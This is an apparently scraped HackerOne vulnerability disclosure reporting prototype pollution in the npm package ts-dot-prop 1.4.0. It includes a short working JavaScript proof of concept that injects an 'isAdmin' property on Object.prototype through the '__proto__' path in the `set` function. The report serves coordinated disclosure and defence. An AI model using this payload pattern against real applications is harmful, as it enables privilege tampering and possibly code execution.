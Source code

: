 #  [ts-dot-prop] Prototype Pollution

## Report Details
- **Report ID**: 980599
- **URL**: https://hackerone.com/reports/980599
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-12T10:23:58.905Z
- **Disclosed**: 2020-10-29T19:25:11.075Z

## Reporter
- **Username**: prathis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `Prototype Pollution` vulnerability in `ts-dot-prop`.
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** `ts-dot-prop`
**version:** `1.4.0`
**npm page:** `https://www.npmjs.com/package/ts-dot-prop`

## Module Description

TypeScript utility to transform nested objects using a dot notation path.

## Module Stats

Weekly downloads: `1028`

# Vulnerability

## Vulnerability Description

The `set` function can be used to `set` properties of the Object prototype. It fails to restrict access to prototypes of objects, allowing for modification of prototype behavior, which may allow obtaining sensitive information/DoS/RCE.

## Steps To Reproduce:

install `ts-dot-prop`:  `npm install ts-dot-prop`

Create an object with __proto__ property and pass it to the `set` function:

## POC: 
`const tsDot = require('ts-dot-prop');
var obj = {}
console.log("Before : " + obj.isAdmin);
tsDot.set(obj, '__proto__.isAdmin', true);
console.log("After : " + obj.isAdmin);`

# Output:
Before: undefined
After: true

## Supporting Material/References:

- Operating System: Windows 10
- NODEJS VERSION: v12.18.3
- NPM VERSION: v6.14.6

# Wrap up

- I contacted the maintainer to let them know: [Y] 
- I opened an issue in the related repository: [Y]

## Impact

The impact depends on the application. In some cases, it is possible to obtain Sensitive Information, Denial of Service (DoS), Remote Code Execution, Property Injection.

## Attachments
No attachments
